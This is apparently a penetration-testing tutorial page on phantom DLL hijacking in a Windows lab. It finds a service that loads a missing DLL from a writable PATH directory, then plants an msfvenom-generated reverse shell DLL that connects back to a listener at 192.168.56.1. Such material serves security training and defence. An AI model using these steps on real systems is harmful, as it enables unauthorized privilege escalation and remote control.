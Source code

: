 # Phantom DLL Hijacking

In this type of DLL we target a missing dll and place our own dll instead.

## <mark style="color:red;">Finding the target</mark>

Use winPEAS to enumerate non-Windows services:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (71).png>)

Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```
accesschk.exe /accepteula -uvqc user dllsvc
```

![](<../../../../.gitbook/assets/image (81).png>)

The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```
 sc qc dllsvc
```

![](<../../../../.gitbook/assets/image (74).png>)

![](<../../../../.gitbook/assets/image (88).png>)

in a real-world scenario we would download the executable to our own windows machine of analysis.then create a new service for the binary file that we copied and give it the path of the service binary and continue to the next steps:

create a service for the binary in our own system

```
sc create binPath= c:\temp\dllhijackservice.exe type= own 
```

Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.

Add a new filter on the Process Name matching dllhijackservice.exe

![](<../../../../.gitbook/assets/image (78).png>)

On the main screen, deselect registry activity and network activity.

![](<../../../../.gitbook/assets/image (102).png>)

Start the service:

```
net start dllsvc
```

![](<../../../../.gitbook/assets/image (80).png>)

​​Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.

![](<../../../../.gitbook/assets/image (103).png>)

At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

## <mark style="color:red;">Exploitation</mark>

On Kali, generate a reverse shell DLL named hijackme.dll:

```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f dll -o VirtualBox\ VMs/shares/hijackme.dll
```

Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```
net stop dllsvc
net start dllsvc
```

![](<../../../../.gitbook/assets/image (90).png>)
